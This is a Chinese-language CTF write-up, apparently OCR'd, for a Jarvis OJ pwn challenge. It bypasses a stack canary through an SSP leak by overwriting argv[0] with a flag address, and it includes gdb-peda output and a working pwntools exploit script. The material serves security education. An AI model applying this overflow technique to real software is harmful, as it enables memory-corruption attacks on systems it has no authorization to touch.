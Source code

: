 get 存在明显的栈溢出漏洞，由于 Canary 保护机制，我们也不能通过暴力和泄露来解决，继续观察发现 byte\_600D20，点击发现：

```plain
.data:0000000000600D20 byte_600D20     db 50h                  ; DATA XREF: sub_4007E0+6E↑w
.data:0000000000600D21 aCtfHereSTheFla db 'CTF{Here',27h,'s the flag on server}',0
```

从提示中可以发现这并不是真正的 flag，真正的 flag 存储在远程服务器的这个地址上。

一种思路诞生：将 argv\[0\]覆盖成 flag 地址，通过 ssp leak 来泄露。

两个步骤：寻找 flag 的地址；寻找 argv\[0\]与栈指针的偏移量

程序后半部分需要我们在 byte\_600D20 这个地址上重写 flag，故这个地址不能使用。在一些小程序中，对于这些小文本会有备份，通过 gdb 进行查找：

\*\*peda 使用 find，pwndbg 使用 search

```plain
gdb-peda$ find CTF
Searching for 'CTF' in: None ranges
Found 5 results, display max 5 items:
   bin2 : 0x400d21 ("CTF{Here's the flag on server}")
   bin2 : 0x600d21 ("CTF{Here's the flag on server}")
```

发现 0x400d21 处也存放该字字符串。

寻找偏移量：在 main 前下断点

```plain
0000| 0x7fffffffddd8 --> 0x7ffff7a2e830 (<__libc_start_main+240>:   mov    edi,eax)
0008| 0x7fffffffdde0 --> 0x0 
0016| 0x7fffffffdde8 --> 0x7fffffffdeb8 --> 0x7fffffffe210 ("/home/qufeng/Desktop/CTF/pwn/stack/canary/bin2")
```

argv\[0\]的地址为 0x7fffffffdeb8

在 get 函数前设置断点，查看此时栈顶的值：

```plain
gdb-peda$ b *0x000000000040080E
Breakpoint 2 at 0x40080e

gdb-peda$ p $rsp
$4 = (void *) 0x7fffffffdca0

偏移量：0x7fffffffdeb8-0x7fffffffdca0=0x218
```

脚本如下：

```plain
# -*- coding:utf-8 -*-
from pwn import *

context(os='linux',arch='amd64',log_level='debug')

# p = process('./bin2')
p = remote('pwn.jarvisoj.com',9877)

flag_addr = 0x400d21
payload = 'a'*0x218 + p64(flag_addr)
p.sendlineafter('your name? ',payload)
p.recv()
p.sendline()
p.interactive()

或：
payload = p64(flag_addr)*200
```
